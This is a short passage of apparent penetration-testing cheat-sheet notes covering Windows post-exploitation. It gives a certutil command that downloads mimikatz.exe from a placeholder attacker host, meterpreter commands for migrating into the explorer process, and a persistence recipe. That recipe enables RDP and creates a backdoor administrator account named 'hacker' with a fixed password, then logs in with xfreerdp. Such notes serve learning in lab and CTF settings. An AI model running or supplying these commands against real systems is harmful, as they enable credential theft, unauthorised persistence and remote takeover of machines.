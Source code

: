 - __`certutil - urlcache -f http://<attacker>/mimikatz.exe mimikatz.exe`__
  - __Windows utilities can be used to download files from a remote web server, Same as wget in linux__
 
- __`pgrep explorer`__
  - __`migrate <process_id>`__
 
  # Windows Persistence via RDP
 
- __Down below is a meterpreter command used to enable the RDP service if it is disable and create a new user__
- __This `hacker` user is added in `Remote Desktop Users` and `Administrators` group__
  - __`run getgui -e -u hacker -p hacker@123321`__
  - > __Note: You require elevated privileges in order to establish persistence on a Windows system.__
  - __`xfreerdp /u:hacker /p:hacker@123321 /v:<target_ip>`__
